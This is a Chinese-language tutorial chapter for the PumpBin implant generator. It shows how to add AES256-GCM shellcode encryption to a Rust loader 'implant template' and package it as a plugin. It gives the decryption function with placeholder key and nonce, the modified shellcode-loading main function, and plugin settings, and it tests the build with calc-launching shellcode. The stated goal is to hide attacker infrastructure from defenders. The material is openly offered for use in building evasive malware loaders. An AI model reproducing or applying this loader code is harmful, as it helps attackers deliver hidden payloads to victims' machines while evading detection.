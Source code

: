 # Encryption

在这一章, 我们将优化上一章制作的Plugin, 使用AES256-GCM加密shellcode.

大部分黑客应该都想加密自己的shellcode, 没有人会愿意暴露基础设施.

## 制作二进制植入物模板

要制作有加密功能的Plugin, 我们的二进制植入物模板需要先实现对应的解密逻辑.

我们将在[上一章代码](https://github.com/pumpbin/pumpbin/tree/main/examples/create_thread)的基础上更改.

在Cargo.toml文件末尾添加下面的依赖

```toml
aes-gcm = "0.10.3"
```

在main.rs中的main函数上面添加如下解密函数

```rust
fn decrypt(data: &[u8]) -> Vec<u8> {
    const KEY: &[u8; 32] = b"$$KKKKKKKKKKKKKKKKKKKKKKKKKKKK$$";
    const NONCE: &[u8; 12] = b"$$NNNNNNNN$$";

    let aes = Aes256Gcm::new_from_slice(KEY).unwrap();
    let nonce = Nonce::from_slice(NONCE);
    aes.decrypt(nonce, data).unwrap()
}
```

其中两个被`$$`包裹的数组引用, 上一章已经出现过, 是两个`Place Holder`, PumpBin使用它来定位占位数据.
(`Place Holder`是固定大小, `Prefix`是动态大小, 所以上一章中需要Size Holder来确定shellcode真实长度, 并且还需要Max Len字段)

在main.rs中main函数内第4行后添加如下代码

```rust
let shellcode = decrypt(shellcode);
```

添加完成后的main函数如下

```rust
fn main() {
    let shellcode = include_bytes!("../shellcode");
    const SIZE_HOLDER: &str = "$$99999$$";
    let shellcode_len = usize::from_str_radix(SIZE_HOLDER, 10).unwrap();
    let shellcode = &shellcode[0..shellcode_len];
    let shellcode = decrypt(shellcode);
    let shellcode_size = shellcode.len();
    ...
```

编译修改后的`create_thread`项目, 我们将得到一个使用AES256-GCM解密shellcode的二进制植入物模板.

```sh
cargo b -r
```

## 制作Plugin

我们使用PumpBin Maker制作Plugin, 步骤和上一章相同, 唯一不同的是我们还需要一个实现了对应解密逻辑的Extism Plug-in.

[plug-in](https://github.com/pumpbin/plug-in)仓库收集可重复使用的PumpBin Extism Plug-in, 其中包含[aes256-gcm](https://github.com/pumpbin/plug-in/tree/main/encrypt_shellcode/aes256-gcm) Extism Plug-in.

README.md中说明了使用方法

> key: `$$KKKKKKKKKKKKKKKKKKKKKKKKKKKK$$`\
> nonce: `$$NNNNNNNN$$`

我们需要在二进制植入物模板的解密函数中使用特定的key和nonce作为`Place Holder`, 我们前面已经这样做了.
(如果你前面修改了解密函数中的KEY或者NONCE, 那么你需要从添加解密函数步骤重新开始)

下载编译后的[aes256_gcm.wasm](https://github.com/pumpbin/plug-in/releases), 并将文件路径输入到到PumpBin Maker中的`Encrypt Shellcode Plug-in`输入框中. (也可以使用文件选择对话框选择下载的`aes256_gcm.wasm`文件)

> Plugin Name填写first_plugin. (这个字段是Plugin的唯一标识, 这意味着用户无法同时安装两个同名的Plugin)

> Prefix填写`$$SHELLCODE$$`. (这是我们上面shellcode占位数据的`Prefix`, 你可以使用任何你喜欢的`Prefix`, 只要确保它是唯一的, 或者是第一个被匹配的)

> Max Len填写shellcode占位数据的总大小, 在这个例子中应该是 1024\*1024 + Prefix的大小 = 1048589. (单位是Bytes)

> Type选择`Local`, Size Holder填写`$$99999$$`. (这是我们上面用来确定shellcode长度的常量字符串引用, 你可以使用任何你喜欢的Size Holder, 规则同上)

> Windows Exe选择我们上面编译好的二进制植入物模板. (也可以直接填写文件路径)

> 点击Generate, 保存生成的b1n文件

## 测试Plugin

用PumpBin安装制作的Plugin, 并使用`w64-exec-calc-shellcode-func`生成一个最终植入物, 运行应该看到calc程序被启动.

至此, 我们制作了一个使用AES256-GCM加密方法的`Local`类型Plugin

前两章中, 我总是将`Local`引用起来, 以提醒这是一个关键词, 正确理解它们对于使用PumpBin非常重要.

下一章, 我们将制作第一个`Remote`类型的Plugin. 这允许将shellcode托管在远程服务器.

本例中的完整项目文件在PumpBin代码仓库的[examples/create_thread_encrypt](https://github.com/pumpbin/pumpbin/blob/main/examples/create_thread_encrypt/src/main.rs).
